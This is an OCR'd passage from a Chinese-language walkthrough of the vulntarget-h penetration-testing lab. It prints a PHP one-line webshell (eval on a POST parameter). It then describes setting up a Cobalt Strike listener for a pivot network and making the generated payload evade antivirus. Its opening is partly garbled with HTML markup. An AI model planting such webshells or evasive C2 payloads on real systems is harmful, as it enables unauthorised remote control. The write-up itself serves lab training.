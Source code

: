 > <br />eval(</span><span style="color: #0000BB">$_POST</span><span style="color: #007700">[</span><span style="color: #DD0000">'shell'</span><span style="col<br /></span><span style="color: #0000BB">?></span>
> </span>
> </code>
> ==============================================================
> # 通过浏览器访问得到的结果。
> <?php
> highlight_file(__FILE__);
> eval($_POST['shell']);
> ?> 
> ```
> 
> + `dsuijaddjsfvos.php`该文件是一句话木马。接下来我们需要使用CS生成一个目录然后再进行免杀。
> 
> + 在生成木马之前我们需要创建一个监听器。
> 
> ![Screenshot_2022-07-02_07-10-45.png](../images/vulntarget-h%20write-up/Screenshot_2022-07-02_07-10-45.png)
> 
> + 你可以能会疑惑为什么需要把监听地址改为**192.168.153.130**。因为Windows Server 2008有两个网卡其中一个网卡是不能和Windows 7通信，**192.168.153.130**这个网卡是可以和Windows 7通信。
> 